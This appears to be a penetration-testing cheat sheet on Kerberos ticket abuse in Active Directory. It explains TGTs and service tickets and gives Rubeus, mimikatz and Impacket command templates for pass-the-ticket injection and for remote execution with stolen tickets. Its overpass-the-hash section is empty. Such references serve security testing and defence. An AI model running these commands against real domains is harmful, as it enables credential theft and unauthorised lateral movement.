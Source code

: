 # Active Directory - Kerberos tickets usage

### Overview

`Kerberos` is an authentication protocol used within Active Directory that rely
on the use of tickets to identify users and grant access to domain resources.
To do so, `Kerberos` implements two type of tickets, issued by two distinct
services of the `Key Distribution Center (KDC)`:
  - `Ticket-Granting Ticket (TGT)`, obtained from the `Authentication Service
  (AS)`.
  - `service tickets`, obtained from the `Ticket-Granting Service (TGS)`.

A valid `TGT` is necessary in order to request `service tickets`, which in turn
grant access to service accounts (user or machine domain accounts that have a
`ServicePrincipalName (SPN)`).

`Overpass-the-hash` is the action of using the `NTLM` hash of an user to
request a `Kerberos` `TGT`. The `NTLM` hash is injected in the `MSV1_0` and
`Kerberos` service providers, in place of the account `RC4` secret (whose
values are identical), to obtain a `TGT` from the `KDC`.

`Pass-the-ticket (PtT)` is the action of directly using `Kerberos` tickets
(`TGTs` or `service tickets`) with out a request to the `KDC`. On Windows
systems, the tickets can be directly injected in the current logon session
while on Linux systems `Kerberos` tickets file can be provided to utilities
supporting the `Kerberos` authentication.

### Overpass-the-hash / Pass The Key (PTK)

### Pass-the-ticket (PtT)

###### [Windows / Linux] Direct requests of service tickets

On Windows, the `Rubeus`'s `asktgs` module can can be used to request
`service tickets` using a valid `TGT`:

```
# ptt: Directly injects the received service ticket in the current logon session

Rubeus.exe asktgs /ticket:<TGT_BASE64 | TGT_KIRBI_FILE_PATH> /service:<TARGET_SERVICE_SPN | TARGET_SERVICES_SPN> /ptt
```

###### [Windows] Injection into the current session

`Kerberos` tickets, in the credential format `KRB_CRED` (`KIRBI` file), can be
injected into the current logon session using `mimikatz` or `Rubeus`:

```
# If necessary, decodes a ticket in base64 (from Rubeus for example) to the KRB_CRED format.
cat <TICKET_BASE64_FILE_PATH> | tr -d "[:space:]" | base64 --decode > <TICKET_KIRBI_FILE_PATH>

# Injects into memory a ticket in the KRB_CRED format.
Rubeus.exe ptt /ticket:<TICKET_KIRBI_FILE_PATH>
mimikatz.exe "kerberos::ptt <TICKET_KIRBI_FILE_PATH>" exit
```

The `Kerberos` tickets cached in the current logon session can be listed using
the Windows built-in `klist` utility or `Rubeus`'s `klist` module:

```
klist

Rubeus.exe klist
```

###### [Linux] credential cache (ccache)

`Kerberos` tickets can be converted from the `KRB_CRED` format to the
`credential cache (ccache)` format to be used with, among others, the
`Impacket`'s Python utilities. If a `TGT` is provided, the `Impacket`'s
utilities will try to obtain the necessary service tickets through request to
the `KDC`.

Refer to the `[Windows] Lateral movements` for more information on how to
leverage the `Impacket` suite for lateral movements in a Windows environment.

```
# If necessary, decodes a ticket in base64 (from Rubeus for example) to the KRB_CRED format.
cat <TICKET_BASE64_FILE_PATH> | tr -d "[:space:]" | base64 --decode > <TICKET_KIRBI_FILE_PATH>

# Converts the TGT from KRB_CRED to ccache.
ticketConverter.py  <TICKET_KIRBI_FILE_PATH> <TICKET_CCACHE_FILE_PATH>

export KRB5CCNAME=<TICKET_CCACHE_FILE_PATH>

# Usage of the TGT through Impacket's utilities.
psexec.py -k -no-pass -dc-ip <DC_IP> <HOSTNAME> [<COMMAND> <COMMAND_ARGS>]
smbexec.py [-service-name <SERVICE_NAME>] -k -no-pass -dc-ip <DC_IP> <HOSTNAME> [<COMMAND> <COMMAND_ARGS>]
wmiexec.py [-service-name <SERVICE_NAME>] -k -no-pass -dc-ip <DC_IP> <HOSTNAME> [<COMMAND> <COMMAND_ARGS>]
[...]
```
